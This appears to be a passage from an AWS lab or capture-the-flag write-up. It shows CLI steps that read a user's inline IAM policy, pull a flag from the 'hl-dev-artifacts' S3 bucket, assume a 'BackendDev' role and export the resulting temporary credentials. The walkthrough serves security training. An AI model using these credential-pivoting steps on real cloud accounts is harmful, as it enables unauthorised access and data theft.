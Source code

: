Let's also check inline `dev01`'s policies that were found previously
```
└─$ aws iam get-user-policy --user-name dev01 --policy-name S3_Access
{
    "UserName": "dev01",
    "PolicyName": "S3_Access",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Action": [
                    "s3:ListBucket",
                    "s3:GetObject"
                ],
                "Resource": [
                    "arn:aws:s3:::hl-dev-artifacts",
                    "arn:aws:s3:::hl-dev-artifacts/*"
                ]
            }
        ]
    }
}
```

We can retrieve contents of S3 bucket named `hl-dev-artifacts`
```
└─$ aws s3 ls hl-dev-artifacts    
2023-10-02 02:39:53       1235 android-kotlin-extensions-tooling-232.9921.47.pom
2023-10-02 02:39:53     214036 android-project-system-gradle-models-232.9921.47-sources.jar
2023-10-02 02:38:05         32 flag.txt

```

We can retrieve the flag
```
└─$ aws s3 cp s3://hl-dev-artifacts/flag.txt -  
d8ae4495888545df0c904551935c7514
```

Let's assume `BackendDev` role
```
└─$ aws sts assume-role  --role-arn arn:aws:iam::794929857501:role/BackendDev --role-session-name backend-dev-session
{
    "Credentials": {
        "AccessKeyId": "ASIA3SFMDAPOQTFG3YSI",
        "SecretAccessKey": "<REDACTED>",
        "SessionToken": "IQoJb3JpZ2luX<SNIP>nwpoj3l65/",
        "Expiration": "2025-08-05T21:03:18Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROA3SFMDAPO2RZ36QVN6:backend-dev-session",
        "Arn": "arn:aws:sts::794929857501:assumed-role/BackendDev/backend-dev-session"
    }
}

```
Export temprorary credentials 
```
└─$ export AWS_ACCESS_KEY_ID="ASIA3SFMDAPOQTFG3YSI"                        
```
```
└─$ export AWS_SECRET_ACCESS_KEY="<REDACTED>"
```
```                                                                                                                                                                                                             
└─$ export AWS_SESSION_TOKEN="IQoJb3JpZ2luX<SNIP>nwpoj3l65/"
```